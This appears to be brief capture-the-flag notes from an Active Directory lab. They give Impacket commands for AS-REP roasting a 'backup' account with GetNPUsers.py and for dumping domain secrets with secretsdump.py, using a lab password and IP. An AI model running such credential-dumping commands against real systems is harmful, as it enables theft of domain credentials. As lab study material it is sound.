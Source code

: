 ### GetNPUsers.py

`python3 GetNPUsers.py THM-AD/backup -no-pass`
attempt to get the hash from a kerberos server

only works if userback has `UF_DONT_REQIRE_PREAUTH`

### secretsdump.py
`python3 /opt/impacket/examples/secretsdump.py  spookysec.local/backup:backup2517860@10.10.6.165`
